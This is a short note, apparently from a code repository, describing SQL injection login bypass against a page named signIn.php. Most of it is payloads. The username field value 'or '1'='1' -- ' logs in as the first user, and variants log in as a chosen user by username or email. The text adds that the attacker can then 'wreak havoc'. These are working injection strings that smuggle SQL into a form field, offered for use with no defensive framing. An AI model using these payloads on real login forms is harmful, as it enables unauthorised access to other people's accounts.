 - Auth Bypass on signIn.php
  1. username => 'or '1'='1' -- '
  2. You can use this attack to get the first user, if you do not any username prior to your attempt.
  3. You can then use this user to wreak havoc.

* Auth a specific user by a known unique field
  username => 'or username='smb' -- '
  or
  username => 'or email='smb@gmail.com' -- '
